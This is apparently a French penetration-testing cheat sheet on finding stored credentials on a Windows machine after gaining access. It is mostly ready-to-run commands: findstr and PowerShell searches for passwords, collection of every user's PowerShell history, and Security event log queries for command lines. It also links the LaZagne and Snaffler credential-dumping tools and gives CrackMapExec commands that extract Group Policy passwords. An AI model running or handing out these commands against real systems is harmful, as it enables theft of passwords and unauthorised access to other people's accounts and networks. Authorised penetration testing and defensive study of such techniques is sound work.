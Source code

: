 ```yaml
---
public: true
---
```

## Dossiers intéressants

```shell
dir c:\
dir "%USERPROFILE%"
dir "%USERPROFILE%\Documents"
dir "%USERPROFILE%\Desktop"
```

## Fichiers Intéressants

## Findstr


```shell
# /S : recherche dans les sous dossiers
# /I : insenssible à la casse
# /M : affiche seulement le nom du fichier (pas la ligne )
# recherche du terme "password" : liste le nom des fichiers contenant "password" (sans afficher le contenu trouvé)
findstr /SIM "password" *.xml *.ini *.txt

# recherche du terme "password" : liste le nom des fichiers et la ligne qui a matché
findstr /SI  "password" *.xml *.ini *.txt

```

### Historiques Powershell

On peut vérifier l'emplacement de l'historique via : `(Get-PSReadLineOption).HistorySavePath`

Collecte des historiques (emplacement par défaut)

```powershell
Gci c:\Users -Directory | Select -ExpandProperty Name | %{ gc "C:\Users\$_\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

### Dictionnaire Google Chrome

```powershell
Gci c:\Users -Directory | Select -ExpandProperty Name | %{ gc "C:\Users\$_\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt" -ErrorAction SilentlyContinue | Select-String password }
```

### Autres

```powershell
# Passwords in scripts in different shares :  SYSVOL, IT shares

Passwords in web.config files on dev machines and IT shares

unattend.xml

Passwords in the AD user or computer description fields

KeePass databases --> pull hash, crack and get loads of access.

Found on user systems and shares

Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, Sharepoint

```

## Configuration IIS

Fichier `C:\inetpub\wwwroot\web.config`

## Recherche de unattend.xml

Script a définir (voir emplacements)

## Barre de recherche Windows

Mots à tenter dans la barre de recherche du menu Démarrer

```
Passwords
Passphrases
Keys
Username
User account
Creds
Users
Passkeys
Passphrases
configuration
dbcredential
dbpassword
pwd
Login
Credentials
```

## Noms de fichiers intéressants

```batch
dir c:\*cred* /s /b 
dir c:\*secret* /s /b
```

```powershell
Get-ChildItem -Recurse -Path C:\ -Include *cred* -File
```

## Contenus de fichiers intéressants

```shell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

findstr /s /i cred c:\*.*
```

```powershell
Get-ChildItem -Recurse -Path C:\ | Select-String "cred" -List
```

```
REM 
dir n:\*cred* /s /b 
dir n:\*secret* /s /b

REM Recherche de mot intéressants dans des fichiers
findstr /s /i cred n:\*.*

n:\Contracts\private\secret.txt
```

## Observateur d'évènement

Si on est membre du groupe `Event Log Readers`, on pourra consulter l'observateur d'évènements.

Si les Event ID 4688 (Un nouveau processus a été créé) sont audités, on pourra potentiellement trouver lignes de commandes incluant des nom de compte utilisateur (voir des mots de passe).

```shell
###### nécessite d'être membre du gruope "Event Log Readers"
# Affiche toutes les lignes de commande auditées
wevtutil qe Security /rd:true /f:text | Select-String "line"
# Affiche les lignes contenant '/user'
wevtutil qe Security /rd:true /f:text | Select-String "/user"
# avec credentials alternatifs
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

Version Powershell (**Nécessite d'être Administrateur local**)

```powershell
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

## Snaffler

<https://github.com/SnaffCon/Snaffler/releases/download/1.0.132/Snaffler.exe>

## Lazagne

<https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.5/LaZagne.exe>

```
C:\Users\bob\Desktop> start lazagne.exe all
```

## Mots de passe dans les stratégies de groupe

```
# cme smb <TARGET[s]> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password

Local admin:
# cme smb 10.0.5.1 -u Administrator -p P@ss123 -d . -M gpp_password
# cme smb 10.0.5.1 -u Administrator -p P@ss123 --local-auth -M gpp_password

Domain user:
# cme smb 10.0.5.1 -u bkpadmin -p P@ss123 -d target.corp -M gpp_password
```
